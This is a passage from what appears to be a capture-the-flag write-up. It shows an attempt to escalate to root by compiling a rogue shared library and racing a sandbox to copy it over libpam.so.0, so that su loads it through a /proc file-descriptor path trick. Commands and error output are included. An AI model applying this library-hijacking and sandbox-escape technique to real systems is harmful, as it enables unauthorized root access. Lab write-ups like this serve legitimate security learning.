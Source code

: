 

I'll compile this as a shared object (library) file and upload it to
Scanned:



    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 



#### Failure

I'll run the same loop as before, but this time, after copying all the
libraries into the jail, I'll copy my library on top of `libpam.so.0`
with this command:



    ./sandbox /dev/shm/runsu a &
    until [ -d jails/a ]; do 
      sleep 1; 
    done 
    cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/
    cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0
    echo "copied libs"



When I run that, it errors out:



    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam.so.0; echo "copied libs"
    [1] 124277
    copied libs
    clarence@scanned:/var/www/malscanner/sandbox$ /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam.so.0: no version information available (required by /lib/libpam_misc.so.0)
    /proc/1/fd/3/../../../../../../../usr/bin/su: symbol lookup error: /lib/libpam_misc.so.0: undefined symbol: pam_putenv, version LIBPAM_1.0
    Exited
    Kill err: (3)



It's complaining that there's no version information in my library, and
that `libpam_misc.so.0` requires it. It's also complaining that
`libpam_misc.so.0` needs the `pam_putenv` method from `libpam.so.0`.

I could go down trying to fix these by implementing the version info and
the `pam_putenv` function (described
[here](https://man7.org/linux/man-pages/man3/pam_putenv.3.md)).

Instead, I'll try overwriting the `libpam_misc.so.0` library instead, on
the idea that this "misc" library may provide less critical purpose to
`su`.
